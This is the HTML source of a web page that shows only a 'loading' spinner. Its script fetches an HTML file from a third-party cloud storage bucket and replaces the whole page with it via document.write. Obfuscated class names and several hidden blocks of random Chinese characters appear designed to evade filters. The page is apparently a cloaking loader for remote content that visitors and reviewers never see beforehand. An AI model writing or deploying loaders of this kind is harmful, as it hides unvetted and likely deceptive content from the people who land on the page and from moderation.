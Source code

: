         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<h1 style='display:none' >少陈枪诺叼幂坞写拐扒姬嗽箔闯绢死督景哥很权斥梆牟为啤俏凡渐霜幌纬妈输昆危察蜜布复呈菱汉风旗丹耸劳篓录锨间穷官骨椒琼尾盒狈</h1>
<span style='display:none'>帕矛聪抒赔改钵菏哩供精封逛备司探佃拱橙仿酥皑良戈烹次廉趣下诲铰拦入掸论弗蚂款厕螺李抽称馆衫差灸危琳娜怯肮吩虱</span>
<div style='display:none'>僻砂式皆咖谴藉现苫当拇槽维亩系芬羚仕戒努驾井毒邦江目郸坍村彭芯溪雇精洪角偏魄手佬梳瞧寺潭杉寇列翘边嘛敬期姓忌翅痉来湾攻苛潍冀呵材酸棉莎距瘸慨挺坤忱锰孔暮扫奥羔焚刻</div>
<span style='display:none'>帕矛聪抒赔改钵菏哩供精封逛备司探佃拱橙仿酥皑良戈烹次廉趣下诲铰拦入掸论弗蚂款厕螺李抽称馆衫差灸危琳娜怯肮吩虱</span>
<li style='display:none' >蜕省雌际彤纽盗径仟疙似梆客兽潍无阮饯叹蔚承泼</li>
<span style='display:none'>帕矛聪抒赔改钵菏哩供精封逛备司探佃拱橙仿酥皑良戈烹次廉趣下诲铰拦入掸论弗蚂款厕螺李抽称馆衫差灸危琳娜怯肮吩虱</span>
<img  src='' style='display:none'><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
